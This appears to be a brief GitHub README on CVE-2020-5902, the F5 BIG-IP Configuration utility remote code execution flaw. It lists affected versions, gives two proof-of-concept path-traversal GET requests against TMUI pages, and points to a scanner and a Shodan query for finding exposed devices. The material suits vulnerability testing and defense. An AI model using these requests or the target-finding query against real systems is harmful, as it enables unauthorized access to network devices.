 # CVE-2020-5902

## Description

In BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), 
also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed pages.

## POC

#### GET /tmui/login.jsp/..;/tmui/system/user/authproperties.jsp
#### GET /tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=AnyMsgHereWillBeReflectedInTheResponse

## Tools

https://github.com/aqhmal/CVE-2020-5902-Scanner
Shodan Query: title:"BIG-IP&reg;- Redirect"
